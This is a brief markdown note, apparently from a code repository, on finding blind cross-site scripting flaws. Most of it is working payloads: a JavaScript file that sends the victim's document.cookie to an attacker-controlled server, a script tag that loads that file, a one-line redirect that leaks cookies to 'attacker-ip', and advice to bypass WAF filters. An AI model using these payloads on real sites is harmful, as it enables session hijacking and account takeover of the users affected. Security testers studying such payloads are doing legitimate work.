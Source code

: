 # Identifing blind xss
### 1. Host a temorary http server(attacker server) with below file and paste the below code inside as cookie.js
<br/>
``` var request = new XMLHttpRequest();<br/>
request.open('GET', 'http://attacker-server-ip/?test='+document.cookie, true);<br/>
request.send() ``` <br/>

### 2. Submit a payload which will render the above script
``` <script src="http://attacker-server-ip/cookie.js"></script> ```
Try to bypass the filters if there is any WAF

### 3. You will receive cookie on attacker-server

### Directly stealing the cookie(this may or may not work and try it with single quote & double quote and also bypass filter protection if WAF exist)
<script>document.location='http://attacker-ip/?c='+document.cookie</script>

